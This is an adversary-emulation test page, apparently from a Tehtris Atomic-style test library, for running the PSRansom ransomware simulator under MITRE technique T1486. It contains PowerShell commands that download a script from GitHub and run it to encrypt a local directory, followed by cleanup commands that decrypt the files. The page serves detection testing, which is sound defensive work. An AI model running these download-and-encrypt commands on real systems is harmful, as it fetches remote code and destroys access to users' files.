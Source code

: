 # PSRansom - Tehtris Test: Running PSRansom
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1486)
<blockquote>PSRansom is a PowerShell Ransomware Simulator with C2 Server capabilities. This tool helps you simulate encryption process of a generic ransomware in any system on any system with PowerShell installed on it. Thanks to the integrated C2 server, you can exfiltrate files and receive client information via HTTP.

All communication between the two elements is encrypted or encoded so as to be undetected by traffic inspection mechanisms, although at no time is HTTPS used at any time.</blockquote>

## Tehtris Tests

- [Tehtris Test - Running PSRansom](#tehtris-test---PSRansom)

<br/>

## Tehtris Test - Running PSRansom
Methods to simulate a ransomware on a single computer.

when sucessfully executed, the test encrypts files on the computer and drop a ransom note.

**Supported Platforms:** Windows


**auto_generated_guid:** f92a380f-ced9-491f-b338-95a101418ce2


#### Attack Commands: Run with `powershell`! 


```powershell
$file_url = "https://raw.githubusercontent.com/HakkYahud/PSRansom/main/PSRansom.ps1"
$file_path = "C:\Users\Public\PSRansom.ps1"
$victim_directory = "C:\Users\I241001\AppData\Local\security.df6"
(New-Object System.Net.WebClient).DownloadFile($file_url, $file_path)
powershell $file_path -e $victim_directory -k "TehtrisKey007!"
```

#### Cleanup Commands:
```powershell
$psrk = Get-Content -Path $env:public\recoverykey.txt
Write-Host [+] Recovery Key: $psrk
powershell $file_path -d $victim_directory -k $psrk
Remove-Item $file_path
Remove-Item $env:public\recoverykey.txt
```

<br/>
<br/>
